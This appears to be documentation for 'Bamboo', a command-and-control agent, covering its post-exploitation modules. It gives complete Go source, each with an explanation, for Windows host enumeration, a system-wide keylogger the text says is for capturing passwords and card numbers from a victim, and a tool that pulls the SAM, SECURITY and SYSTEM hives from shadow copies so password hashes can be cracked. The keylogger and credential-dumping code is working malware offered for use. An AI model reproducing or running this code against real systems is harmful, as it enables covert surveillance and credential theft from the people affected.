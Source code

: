 # Post Exploitation

## Machine Enumeration

### Description

The purpose of Bamboo's enumeration tool is to enumerate the target machine first before launching an attack. The tool extracts three primary information:

- installed applications and their versions
- machine's system version
- security updates installed on the machine (hotfixID and timestamp)

### Implementation

The team implemented the tool as part of the agent's capabilities, allowing it to gather detailed information about the target system. The tool's code is shown in the toggle below.

<details>
<summary>Expand code</summary>

```go
package post_exploit

import (
	"fmt"
	"os/exec"
)

func powershellCsv(command string) (outputString string, err error) {
	cmd := exec.Command("powershell", command, "| ConvertTo-Csv -NoTypeInformation")

	output, err := cmd.Output()
	if err != nil {
		return
	}
	outputString = string(output)
	return
}

func EnumerateSystem() (enumerateInfo map[string]string, err error) {
	enumerateInfo = make(map[string]string)

	// get system information
	enumerateInfo["system"], err = powershellCsv("Get-CimInstance -Class Win32_OperatingSystem | Select-Object BuildNumber, Caption, OSArchitecture")
	if err != nil {
		fmt.Println("Error retrieving system information:", err)
		return
	}
	fmt.Println("System Information:")
	fmt.Println(enumerateInfo["system"])

	// retrieve Windows update list
	enumerateInfo["updates"], err = powershellCsv("Get-WmiObject -Class Win32_QuickFixEngineering | Select-Object Description, HotFixID, InstalledOn")
	if err != nil {
		fmt.Println("Error retrieving update list:", err)
		return
	}
	fmt.Println("\nWindows Update List:")
	fmt.Println(enumerateInfo["updates"])

	// get applications
	enumerateInfo["applications"], err = powershellCsv("Get-Package -ProviderName Programs | Select-Object Name, Version | Sort-Object Name")
	if err != nil {
		fmt.Println("Error retrieving installed apps:", err)
		return
	}
	fmt.Println("\nInstalled Apps and Versions:")
	fmt.Println(enumerateInfo["applications"])

	return
}
```
</details>

This program consists of two functions: `powershellCsv` and `EnumerateSystem` .

**powershellCsv Function**

This function takes a PowerShell command as input, executes it, and converts the output to a CSV format.

**EnumerateSystem Function**

This is the main function of the program. It creates a map, **`enumerateInfo`**, to store the collected data. The function then calls **`powershellCsv`** to execute three PowerShell commands:

1. **System Information**

      Retrieves the system's build version, caption, and OS architecture.

1. **Windows Updates**

      Retrieves a list of installed Windows updates.

1. **Installed Applications**

      Retrieves the list of installed applications and their versions.

The output of each command is stored in the **`enumerateInfo`** map with its respective keys: 'system', 'updates', and 'applications`.

## Keylogging

### Description

Bamboo consists of a keylogging tool to capture keystrokes on the victim's machine. With this tool, Bamboo Client users could potentially collect sensitive information such as passwords, credit card numbers, and more. 

### Implementation

The team implemented the tool as part of the agent's capabilities. Its program utilises a GO library, [Gohook](https://github.com/robotn/gohook), which provides a global keyboard and mouse listener hook. The Gohook library uses the Windows API function, `SetWindowsHookEx` , to install a hook procedure that captures keyboard events. Specifically, it installs a **`WH_KEYBOARD`** hook, which captures keyboard events system-wide. The hook procedure is a callback function that is called whenever a keyboard event occurs. In Gohook, this callback function is implemented in Go and is responsible for processing the keyboard event. The program's code is as shown in the toggle below.

<details>
<summary>Expand code</summary>

```go
package post_exploit

import (
	"fmt"
	"strings"
	"time"

	hook "github.com/robotn/gohook"
)

var keystrokes []string

func hookKeylog(evChan chan hook.Event) {
	for ev := range evChan {
		switch ev.Kind {
		case hook.KeyDown:
			// handle special keys as spaces
			switch ev.Keycode {
			case 8, 9, 13, 16, 17, 18, 32, 33, 34, 35, 36, 37, 38, 40, 45: // keycodes for backspace, tab, enter, space, pageup, pagedown, left, right, up, down, insert, delete, shift, ctrl, alt
				keystrokes = append(keystrokes, " ")
			case 49: // '!'
				keystrokes = append(keystrokes, "!")
			case 50: // '@'
				keystrokes = append(keystrokes, "@")
			case 51: // '#'
				keystrokes = append(keystrokes, "#")
			case 52: // '$'
				keystrokes = append(keystrokes, "$")
			case 53: // '%'
				keystrokes = append(keystrokes, "%")
			case 54: // '^'
				keystrokes = append(keystrokes, "^")
			case 55: // '&'
				keystrokes = append(keystrokes, "&")
			case 56: // '*'
				keystrokes = append(keystrokes, "*")
			case 57: // '('
				keystrokes = append(keystrokes, "(")
			case 48: // ')'
				keystrokes = append(keystrokes, ")")
			case 61: // '='
				keystrokes = append(keystrokes, "=")
			case 91: // '['
				keystrokes = append(keystrokes, "[")
			case 93: // ']'
				keystrokes = append(keystrokes, "]")
			case 92: // '\'
				keystrokes = append(keystrokes, "\\")
			case 59: // ';'
				keystrokes = append(keystrokes, ";")
			case 39: // '''
				keystrokes = append(keystrokes, "'")
			case 44: // ','
				keystrokes = append(keystrokes, ",")
			case 46: // '.'
				keystrokes = append(keystrokes, ".")
			case 47: // '/'
				keystrokes = append(keystrokes, "/")
			case 96: // '`'
				keystrokes = append(keystrokes, "`")
			case 126: // '~'
				keystrokes = append(keystrokes, "~")
			default:
				// for printable characters
				if ev.Keychar >= ' ' && ev.Keychar <= '~' {
					keystrokes = append(keystrokes, string(ev.Keychar))
				} else {
					// for unknown special characters or non-printable keys, handle accordingly
					keystrokes = append(keystrokes, " ") // record other special keys as space
				}
			}
		// exclude mouse events from being recorded
		case hook.MouseDown, hook.MouseUp, hook.MouseMove:
			continue
		}
	}
}

func RunKeylogger(keystrokesChan chan string, stopChan chan bool) {
	// make keystrokes blank
	keystrokes = make([]string, 0)

	// start event hook
	evChan := hook.Start()
	defer hook.End()

	go hookKeylog(evChan)

	ticker := time.NewTicker(5 * time.Second)
	defer ticker.Stop()

	stop := false
	for !stop {
		<-ticker.C
		// use select with default to make the stop channel not block
		select {
		case stop = <-stopChan:
			fmt.Println("Stopping keylogger...")
		default:
			fmt.Printf("Keystrokes pressed: %s\n", strings.Join(keystrokes, ""))
		}
		// keystrokes = nil // Reset keystrokes slice after printing
	}
	// send back keystrokes through channel
	keystrokesChan <- strings.Join(keystrokes, "")
}

```
</details>

This program consists of two functions: **`hookKeylog`** and **`RunKeylogger`**.

**hookKeylog Function**

This function is responsible for handling keyboard events. It takes a channel of hook events as input and processes each event. When a key is pressed, it appends the corresponding character to the **`keystrokes`** slice. The function handles special keys, such as backspace, tab, and enter, by appending a space to the **`keystrokes`** slice. It also handles special characters by appending the corresponding character to the **`keystrokes`** slice. These special characters are handled explicitly in the **`hookKeylog`** function to ensure that they are recorded correctly in the **`keystrokes`** slice.

**runKeylogger Function**

The function starts an event hook using the **`hook.Start()`** function and defers the **`hook.End()`** function to stop the hook when the program exits. The function then starts a goroutine to process keyboard events using the **`hookKeylog`** function. It also starts a timer to print the keystrokes every 5 seconds.

It listens for a stop signal using **`stopChan`** channel. When a stop signal is received, it stops the keylogger and prints a message indicating that the keylogger has stopped. Finally, the function sends the collected keystrokes through the **`keystrokesChan`** channel.

## Retrieval of Registry Hives

### Description

This tool allows Bamboo Client users to retrieve the SAM (Security Account Manager), SECURITY and SYSTEM files of a Windows machine. These hives contain critical information, detailed in the table below.

| Registry Hive | Description |
| --- | --- |
| SAM | Holds details on local user accounts such as hashed passwords  |
| SYSTEM | Holds details on the system's hardware and configurations |
| SECURITY | Holds details on user accounts, group policies, and access control lists |

By obtaining these registry hives, Bamboo Client users can obtain hashed passwords, security tokens, and detailed configuration data. They can even attempt to crack the password hash and use the cracked passwords to compromise other areas. 

*Note. This tool can only be used if the Bamboo Agent is at least at a **High** privilege level.*

### Implementation

The team implemented the tool as part of the agent's capabilities. The program's code is as shown in the toggle below.

<details>
<summary>Expand code</summary>

```go
package post_exploit

import (
	"bytes"
	"fmt"
	"os"
	"os/exec"
	"regexp"
)

// Get the latest shadow copy volume
func getLatestShadowCopy() (string, error) {
	cmd := exec.Command("vssadmin", "list", "shadows")
	var out bytes.Buffer
	cmd.Stdout = &out
	err := cmd.Run()
	if err != nil {
		return "", err
	}

	// Extract all shadow copies
	re := regexp.MustCompile(`Shadow Copy Volume: (\\\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy\d+)`)
	matches := re.FindAllStringSubmatch(out.String(), -1)

	if len(matches) == 0 {
		return "", fmt.Errorf("no shadow copies found")
	}

	// Return the latest shadow copy volume
	return matches[len(matches)-1][1], nil
}

func readFile(sourceFile string) (data []byte, err error) {
	data, err = os.ReadFile(sourceFile)
	if err != nil {
		fmt.Println(err)
	}
	return
}

// read files from shadow copy
func readFilesFromShadowCopy(shadowCopyVolume string) (fileData map[string][]byte, err error) {
	fileData = make(map[string][]byte)
	filesToCopy := []string{"system", "sam", "security"}
	sourceFolder := fmt.Sprintf("%s\\windows\\system32\\config\\", shadowCopyVolume)

	for _, file := range filesToCopy {
		sourceFile := sourceFolder + file
		fmt.Printf("Reading %s\n", sourceFile)

		fileData[file], err = readFile(sourceFile)
		if err != nil {
			err = fmt.Errorf("error copying file %s: %w", file, err)
			return
		}
	}

	return
}

func SSSRetriver() (fileData map[string][]byte, err error) {
	// destinationFolder := "C:\\temp"

	shadowCopyVolume, err := getLatestShadowCopy()
	if err != nil {
		fmt.Printf("An error occurred: %s\n", err)
		return
	}

	fmt.Printf("Latest shadow copy volume: %s\n", shadowCopyVolume)
	fileData, err = readFilesFromShadowCopy(shadowCopyVolume)
	if err != nil {
		fmt.Printf("An error occurred: %s\n", err)
		return
	}

	fmt.Println("Files copied successfully.")
	return
}

```
</details>

This program consists of three functions: **`getLatestShadowCopy`**, **`readFile`**, and **`readFilesFromShadowCopy`**.

**getLatestShadowCopy Function**

This function retrieves the latest shadow copy volume using the **`vssadmin`** command. It runs the command, captures the output, and extracts the latest shadow copy volume using a regular expression.

**readFile Function**

This function reads a file from the specified source file path and returns the file data.

**readFilesFromShadowCopy Function**

This function reads files from the shadow copy volume. It takes the shadow copy volume as input, constructs the source folder path, and reads three specific files: **`system`**, **`sam`**, and **`security`**. The file data is stored in a map with the keys as its file names.

**SSSRetriver Function**

This is the main function of the program. It retrieves the latest shadow copy volume using **`getLatestShadowCopy`**, reads the files from the shadow copy volume using **`readFilesFromShadowCopy`**, and returns the file data.